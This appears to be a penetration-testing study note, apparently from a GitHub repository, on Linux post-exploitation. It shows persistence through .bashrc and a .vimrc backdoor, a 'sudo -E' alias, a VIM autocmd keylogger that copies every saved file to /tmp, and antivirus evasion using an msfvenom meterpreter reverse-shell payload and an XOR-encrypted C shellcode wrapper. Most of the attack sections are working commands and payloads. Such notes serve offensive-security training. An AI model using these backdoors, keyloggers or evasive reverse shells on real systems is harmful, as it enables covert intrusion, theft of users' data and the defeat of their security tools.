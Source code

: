 ## User Configuration Files

In Linux systems, applications frequently store user-specific configuration files and subdirectories
within a user’s home directory. These configuration files control how applications behave for a specific user and are typically only writable by the users or root.
If we compromise a system under a given user, we can modify those files and change how applications behave for them.

Two common examples are **.bash_profile** and **.bashrc**.
- **.bash_profile** is executed when logging in to the system initially(login to machine, or ssh)
- **.bashrc** is executed when a new terminal window is opened from an existing login session
- **can be useful when trying to maintain persistence or escalate privileges**

Example, append touch command to .bashrc, and spawn a new shell will trigger the command execution
```
linux@linuxvictim:~$ echo "touch /tmp/bashtest.txt" >> ~/.bashrc

linux@linuxvictim:~$ /bin/bash
linux@linuxvictim:~$ ls -al /tmp/bashtest.txt
-rw-rw-r-- 1 linux linux 0 Aug 26 15:20 /tmp/bashtest.txt
```
## Attcking with VIM text editor
#### VIM config file backdoor

On many Linux systems, user-specific VIM configuration settings are located in a user’s home directory in the .vimrc file. The commands specified in the .vimrc file are executed when VIM is launched. we can leverage the VIM plugin directory. As long as the files have a .vim extension, all VIM config files located in the user’s **~/.vim/plugin** directory will be loaded
when VIM is run.

We add one line in the user’s **.vimrc** file to the following, this command will mutes debug output and execute /.vimrunscript script.
```
:silent !source ~/.vimrunscript
```

On a Debian or similar system, if the user runs VIM via sudo, our script being sourced does not persist the user’s shell environment
information when moving to a sudo context. We can add an alias to the user’s .bashrc file. source command makes alias changes to go into effect right away.

```
alias sudo="sudo -E"

linux@linuxvictim:~$ source ~/.bashrc
```
#### VIM config keylogger
We can use **:autocmd** in a VIM configuration file or in the editor to set actions for a collection of predefined events. All detials commands can be found at [Vim documentation: autocmd](http://vimdoc.sourceforge.net/htmldoc/autocmd.html)

Now we can set up an autocommand that fires on the BufWritePost action and then writes the content of the file to a log file we specify. We will put our command in
```/home/linux/.vim/plugin/settings.vim```

```
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
```
**BufWritePost** us the event, meaning that after a buffer is written to a file, we will perform our action. “*” specifies this action will be performed for all files being edited. **:w!** save the buffer contents, **!** is a force modifier, it will overwrite an existing file.

VIM supports the use of basic if statements in its configuration scripts
```
:if <some condition>
:<some command>
:else
:<some alternative command>
:endif
```

below example will check if user os running as root

```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
:endif
```

## Bypass AV with encoder and C code wrapper

First, let's test our linux scan with [eicar](https://www.eicar.org/?page_id=3950) project. ```sudo kesl-control --scan-file ./eicar.txt```. The the eicar.txt should be removed. Otherwise, the scanner is not working. We can also check the Kaspersky’s event log for detected events ```sudo kesl-control -E --query | grep DetectName```.

#### Bypass with x64/zutto_dekiru encoder
this method bypass Kaspersky scanner, but not all scanners at [Antiscan.me](https://antiscan.me/)

```
sudo msfvenom -p linux/x64/meterpreter/reverse_tcp LPORT=443 LHOST=10.10.10.6 -e x64/zutto_dekiru -f elf -o /tmp/met64zutto.elf
```

#### Bypass with C code wrapper and xor encrytion.

We can use the msfvenom to create c shell code, xor the shell code, wrap the xored shell code in c file, add decrypt function, and compile c file into exe.
- [encoder.c](/08PlayingWithLinux/encoder.c) encrypt shell code and print out encrypted payload
- [CWrapper.c](/08PlayingWithLinux/CWrapper.c) decrypt shell code and run

Compile encoder and run encoder
```
kali@kali:~$ gcc -o encoder.out encoder.c

kali@kali:~$ ./encoder.out
\x20\x73\x12\x45\x4F\x02\xCF\x8A\
```

Compile shellcode wrapper, don't forget to compile the c code in the same architecture as target's
```
kali@kali:~$ gcc -o CWrapper.out CWrapper.c -z execstack
```
394
